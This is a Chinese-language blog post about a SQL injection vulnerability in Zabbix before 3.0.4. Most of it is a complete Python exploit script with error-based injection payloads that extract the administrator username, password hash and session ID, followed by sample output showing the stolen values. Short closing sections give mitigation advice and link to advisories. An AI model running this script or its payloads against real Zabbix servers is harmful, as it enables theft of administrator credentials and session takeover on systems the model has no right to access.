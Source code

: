```yaml
---
layout: post
title: Zabbix 最新 SQL 注入漏洞及 EXP
description: "Zabbix 最新 SQL 注入漏洞及 EXP"
category: Security
avatarimg:
tags: [Security, Zabbix, SQL Injection, EXP]
duoshuo: true
---
```


# 引言

这两天，大家都在说 Zabbix 的 SQL 注入漏洞，下面我们来看下。

# CNNVD：关于 Zabbix 漏洞情况的通报

CNNVD：关于Zabbix漏洞情况的通报(http://bobao.360.cn/news/detail/3468.html)  
上面详细介绍了漏洞简介，漏洞危害，及修复措施。但没有说到漏洞检测测试的方法。
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制](http://bobao.360.cn/news/detail/3462.html)，这篇文章提到漏洞检测测试的方法。  
下面我们根据以上漏洞测试方法来用 Python 写一个 Exp。

# Zabbix 最新 SQL 注入漏洞 EXP

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# Date: 2016/8/18
# Modified by: Jamin Zhang
# Blog: http://jaminzhang.github.io

import urllib2
import sys, os
import re

def deteck_Sql():
    u'检查是否存在 SQL 注入'
    payload = "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=999'&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(url + payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        key_reg = re.compile(r"INSERT\s*INTO\s*profiles")
        if key_reg.findall(response):
            return True


def sql_Inject(sql):
    u'获取特定sql语句内容'
    payload = url + "jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=" + urllib2.quote(
        sql) + "&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1"
    try:
        response = urllib2.urlopen(payload, timeout=10).read()
    except Exception, msg:
        print msg
    else:
        result_reg = re.compile(r"Duplicate\s*entry\s*'~(.+?)~1")
        results = result_reg.findall(response)
        if results:
            return results[0]


if __name__ == '__main__':
    # os.system(['clear', 'cls'][os.name == 'nt'])
    print '+' + '-' * 60 + '+'
    print u'\t   Python Zabbix < 3.0.4 SQL 注入 Exploit'
    print '\t    Blog: http://jaminzhang.github.io'
    print '\t\t   Modified by: Jamin Zhang'
    print '\t\t   Date: 2016-08-18'
    print '+' + '-' * 60 + '+'
    if len(sys.argv) != 2:
        print u'用法: ' + os.path.basename(sys.argv[0]) + u' [Zabbix Server Web 后台 URL]'
        print u'实例: ' + os.path.basename(sys.argv[0]) + ' http://jaminzhang.github.io'
        sys.exit()
    url = sys.argv[1]
    if url[-1] != '/': url += '/'
    passwd_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select concat(name,0x3a,passwd) from  users limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    session_sql = "(select 1 from(select count(*),concat((select (select (select concat(0x7e,(select sessionid from sessions limit 0,1),0x7e))) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)"
    if deteck_Sql():
        print u'Zabbix 存在 SQL 注入漏洞！\n'
        print u'管理员  用户名密码：%s' % sql_Inject(passwd_sql)
        print u'管理员  Session_id：%s' % sql_Inject(session_sql)
    else:
        print u'Zabbix 不存在 SQL 注入漏洞！\n'

```    

以下为执行上述 Exp 脚本输出结果：

```bash
C:\Users\xxx\Desktop>python zabbix_exp.py
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
            Blog: http://jaminzhang.github.io
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
用法: zabbix_exp.py [Zabbix Server Web 后台 URL]
实例: zabbix_exp.py http://jaminzhang.github.io

C:\Users\xxx\Desktop>python zabbix_exp.py http://192.168.56.11/zabbix
+------------------------------------------------------------+
           Python Zabbix < 3.0.4 SQL 注入 Exploit
            Blog: http://jaminzhang.github.io
                   Modified by: Jamin Zhang
                   Date: 2016-08-18
+------------------------------------------------------------+
Zabbix 存在 SQL 注入漏洞！

管理员  用户名密码：Zabbix:5fce1b3e34b520afeffb37ce08c7cd66
管理员  Session_id：16c9fe855b00a92112ae55cad58792c6
```    

漏洞修复方法上面提到的文档中都有说明，按照文档来修复吧。

# 扩展

## 1 运维思想

1. 如果 Zabbix 是通过 VPN 走公司内网访问，外面是无法访问 Zabbix 的
2. 如果 Zabbix 有外网地址，可以将 Zabbix 服务器的外网地址网卡 shutdown，使其无法从外网访问 Zabbix 服务器
3. 运维人员若想访问 Zabbix 查看监控，可以通过 VPN 连接公司内网，然后登录查看 Zabbix 监控
4. 黑客无法从外网访问你的 Zabbix 服务器，你的 Zabbix 服务器也就不存在漏洞的威胁

## 2 关于升级 Zabbix 服务器的风险

若贸然给服务器升级 Zabbix 服务的话，可能会造成监控业务的不稳定因素，需要提前规划好升级计划，要从根本上解决问题，规划配置好安全架构，而不是仅关注些许的漏洞

## 3 小结

* 漏洞是无止境的，只有只有从思想上去解决问题，才能避免安全事故的发生
* 技术的提升知识量的积累，思想的转变才是质的飞跃


# Ref
[CNNVD：关于Zabbix漏洞情况的通报](http://bobao.360.cn/news/detail/3468.html)  
[【漏洞预警】ZABBIX高危漏洞，无需授权登陆即可完成控制（更新利用工具）](http://bobao.360.cn/news/detail/3462.html)  
[SQL injection vulnerabilities in "Latest data"](https://support.zabbix.com/browse/ZBX-11023)  
[Zabbix 2.2.x / 3.0.x - SQL Injection](https://www.exploit-db.com/exploits/40237/)  
[poc, vul, exp都是什么意思呢](https://www.zhihu.com/question/26053378)  
